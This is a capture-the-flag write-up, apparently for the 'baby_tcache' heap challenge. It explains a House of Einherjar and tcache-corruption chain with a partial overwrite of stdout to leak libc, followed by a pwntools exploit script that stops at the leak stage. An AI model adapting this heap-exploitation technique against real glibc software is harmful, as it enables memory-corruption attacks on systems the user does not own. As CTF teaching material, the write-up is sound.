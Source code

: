 Partially overwrite last two bytes of unsorted bin libc address with `stdout`. Set `stdout->_flags` as `0xfbad1800` and partially overwrite the `stdout->_IO_write_base` to a lower address such that libc addresses are flushed out. There is a 4-bit bruteforce involved to land the `stdout` address. 

After getting the leak you just have to corrupt tcache again and overwrite `__free_hook` with `one\_gadget`. For this we apply the same technique for UAF on `ptr_2` by allocated a chunk off the unsorted bin.

### Here is my exploit code
```python
from pwn import *

s=process("./baby_tcache",env={'LD_PRELOAD' : './libc.so.6'})
libc = ELF("./libc.so.6")
#s=remote("52.68.236.186", 56746)

def add(size,data,val=1):
        s.recvuntil("Your choice: ")
        s.sendline(str(1))
        s.recvuntil("Size:")
        s.sendline(str(size))
        ret = s.recvuntil("Data:",timeout=5)
        if ret == "":
            exit()
        if(val):
            s.sendline(str(data))
        else:
            s.send(str(data))

def free(idx):
        s.recvuntil("Your choice: ")
        s.sendline(str(2))
        s.recvuntil("Index:")
        s.sendline(str(idx))

# House of einhejar
add(0x4f0,"a"*0x8,1)
add(0x60,"b"*8)
add(0x30,"a"*8)
add(0x10,"a"*8)
add(0x4f0,"b"*8,0)
add(0x10,"a"*8)

# free and allocate ptr_3 to overwrite prev_size and clear prev\_inuse bit of ptr_4
free(3)
add(0x18,p64(0x00) *2 + p64(0x5d0),0)

# trigger house of einhejar
free(0)
free(4)

# free two ptr_1 and ptr_3 so they can be used to corrupt tcache and get arbitary allocations
free(1)
free(3)

# allocate ptr_1 to get UAF on ptr_1
add(0x4f0,"a")

# partial overwrite to stdout->_flags
add(0x90,"\x60\x07",0)

# Overwrite _flags and _IO_write_base to get leak
add(0x60,"w")
add(0x60,p64(0xfbad1800) + p64(0x00)*3 + "\x00",1)
```